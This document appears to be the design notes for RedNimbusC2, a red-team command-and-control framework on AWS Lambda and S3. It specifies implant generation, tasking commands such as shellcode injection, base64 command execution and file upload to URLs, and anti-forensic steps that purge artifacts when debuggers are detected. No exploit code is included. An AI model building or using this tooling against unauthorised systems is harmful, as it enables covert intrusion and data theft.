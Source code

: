 # Design

## Proposed Workflow

1. Red operator deploys the AWS serverless core (Lambdas, S3, etc.)
     -maybe use CDK for this?

2. Red operator generates an implant
  - do this locally?
  - lambda dynamically generates payload, stores in S3?
  - Why not both?

3. Red operator deploys implant to target
  - how this happens is up to you

4. Implant is executed on target system; implant calls back to implant-handler Lambda
  - effective access control will be key here

5. Red operator issues taskings through a locked down operator lambda

6. storage and state will be placed in S3
  - upload/download files
  - upload/download implant taskings
  - upload/download implant output

7. CloudWatch
  - provides detailed logs
  - red operator accountability

8. Stretch goal - support event based triggers
  - new software installed -> send operator alert
  - low battery -> extend sleep
  - suspicious processes spawned (debuggers, sysinternals, volatility, etc.) -> kill implant, purge artifacts, force reboot

## User Experience

### Installation

```bash
# clone the repo
git clone https://github.com/bluesentinelsec/RedNimbusC2

# install and configure all dependencies
./scripts/install.sh

# boom - you are ready to operate
```

### Generate Implants

```bash
# granular example; most fields will be optional
./create_implant --format exe --arch amd64 --platform windows --c2url https://whatever \
    --callback-frequency 10 --kill-date 365 \
    --implant-group
    --allow-hostname myTarget --allow-user userName --allow-ip 10.10.10.10 \
    --verbose 
```

### Issue taskings
Lambda name: submitTasking

Taskings are sent via HTTP POST requests to API Gateway

API gateway passes to Lambda -> Lambda passes to S3; writes to a bucket - "taskings"

Security here is critical - only red operators should
be able to issue tasks

```bash
# issue singular tasking
./set-task --session-id uuid --cmd supportedCmd --args yourArguments

# task multiple sessions
./set_tasking --session-id uuid1,uuid2,uuid3 --cmd supportedCmd --args yourArguments

# task every session
./set_tasking --session-id all --cmd supportedCmd --args yourArguments

# task implants in a group
./set_tasking --session-group yourGroup --cmd supportedCmd --args yourArguments

# remove task
./remove-task --id <task ID>

# read task
./get-task --id <task ID>

# note: if 'nimbus_secret' env var is set, encrypt command with that key
# implant will have to know about the key
```

### Supported Commands

```
# download a file from target to S3
get-file <src file>,<dst file>

# put file from S3 to target
put-file <src file>,<dst file>

# target system will download a file from a URL
download-file <URL>,<dst file>

# target system will upload a file via HTTP POST to URL
upload-file <URL>

# run command from native shell environment
exec-cmd <command>

# execute a base64 encoded command
exec-b64cmd <base64 encoded command>

# list files in directory
list-files <file or dir>

# list files recursive
list-files-recursive <dir>

# get process listing
get-process

# get implant process ID
get-pid

# get network connections
get-netstat

# get network interface configuration
get-ifconfig

# load dynamic library in process
load-library <library in S3> <pid or proc name>

# load shellcode in process
load-shellcode <shellcode in S3> <pid or proc name>

# exit from the system and delete all artifacts
terminate-session

# change secret key; this will read an env variable, 'nimbus_secret'
set-secret

# set sleep interval
set-sleep <int>

# if implant fails to connect after X times, cleanup and terminate
set-retry-limit <int>
```

### Task structure

Unencrypted:
```
taskID: string
task: string
arguments: []string
sessionID: string
group: string
time: string
```

Encrypted
```
data: <encrypted task object>
```

### Get tasking output

tasks should get written to an S3 bucket - `output`

task output structure:

```
sessionID: string
hostname: string
osName: string
osVersion: string
kernel: string
implantUser: string
implantDir: string
implantProcessID: int
taskID: string
taskIssued: time
taskComplete: time
task: string
error: string
output: string
```

- get psp's should be a module / plugin

- task output can stream into a console window

- task output can be pulled from S3
  - perhaps queried with Athena?

- should we use CloudWatch for task output?

- Send notifications to Slack? Text message? Email?
